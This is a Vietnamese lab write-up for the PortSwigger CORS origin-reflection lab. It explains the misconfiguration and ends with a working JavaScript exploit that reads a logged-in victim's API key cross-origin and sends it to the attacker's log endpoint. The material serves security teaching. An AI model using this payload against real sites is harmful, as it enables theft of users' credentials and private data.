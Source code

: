   ![image](https://user-images.githubusercontent.com/104350480/225578849-f43c0bce-997d-430c-bc45-c4b4ca22b50f.png)
  
  Nó cho phép trang web kia thực hiện truy xuất tài nguyên từ trang web ngân hàng và các cuộc tấn công có thể diễn ra. Ở đây Cors vul được sinh ra từ việc cách cấu hình cors có vấn đề gây ra rủi ro bảo mật.
Việc cho phép truy cập vào tài nguyên giữa các tên miền khác nhau đôi khi là bắt buộc vì 1 số trang web về mua sắm thì cần phải tin tưởng các trang web ngân hàng khác để có thể thực hiện được việc thanh toán. Còn dài quá, thôi vào bài lab cho dễ hiểu: 

  ### [1. CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)<a name='cor1'></a>
  
  Ta đăng nhập vào tài khoản với wiener:peter :

![image](https://user-images.githubusercontent.com/104350480/225526545-ff433653-1b23-4d7d-9ab7-f2af322aacbf.png)

  Ở phần này ta có thể thấy có thêm sự xuất hiện mới là API Key tại chỗ My Account. Check qua burp suite proxy history, ta sẽ quan sát thấy api Key được trả về thông qua cái asynchronous javascript and xml- gọi ngắn gon là ajax request đến /accountDetails. Đồng thời ta để ý response cũng chứa Access-Control-Allow-Credentials header cho thấy ứng dụng có chứa hỗ trợ CORS và đang được để là true.
  
  
  ![image](https://user-images.githubusercontent.com/104350480/225557507-4dc41852-034f-456a-827b-63e17c0e4d71.png)

  Tất nhiên ở đây ta sẽ không quan tâm đến cái apiKey của th wiener làm gì, cái ta cần là apiKey của th admin cơ. Trước tiên thì ta cần xem là trang web này có bị cấu hình sai cho phép ta khai thác không.
Ta thêm thử Origin bất kì vào bên request, thì có thể thấy ở bên response có trả về giá trị origin ta truyền vào, tức là cái origin nào truyền vào cũng được luôn. Còn nếu đưa ra lỗi thì ta sẽ đến với bài lab sau rồi tính: 
  
  ![image](https://user-images.githubusercontent.com/104350480/225558245-5c152ad5-1df0-4a2a-9c75-3a317dcc647f.png)

  Ở đây ta không chỉ có quyền truy cập tài nguyên từ 1 origin bất kì mà còn có thể tân dụng cái Access-Control-Allow-Credentials: true để không chỉ đọc tài nguyên public mà còn có cả riêng tư. ( ta có thể nhớ lại lí thuyết phần này: Access-Control-Allow-Credentials: true là một header trong CORS cho phép truy cập tài nguyên với thông tin xác thực (credentials) như cookie, HTTP authentication. Khi header này được set là true, trình duyệt sẽ cho phép các yêu cầu AJAX từ trang web gốc (origin) có chứa các thông tin xác thực trong yêu cầu tới các trang web khác (cross-origin) để truy cập các tài nguyên. )
Ta ta có thể sử dụng script như sau để exploit bên phái server và đọc API key: 
  
  ```
  <script>

    var req = new XMLHttpRequest();
    
    var url='https://0aee00f9030e83fbc18e808200650026.web-security-academy.net'

    req.open('GET',url+'/accountDetails',true);

    req.withCredentials = true;
    // onreadystatechange sẽ được gọi mỗi khi trạng thái yêu cầu thay đổi
    req.onreadystatechange = function() {
      if (req.readyState == XMLHttpRequest.DONE){
    // sử dụng phương thức fetch() để gửi một yêu cầu HTTP GET đến đường dẫn '/log', ta để ở đây đường dẫn gì cũng được, tham số cũng vậy, chủ yếu để phân biệt chỗ giá trị ta get về thôi
            fetch('/log?key=' + req.responseText)
    }
    }

    req.send(null);


</script>
  ```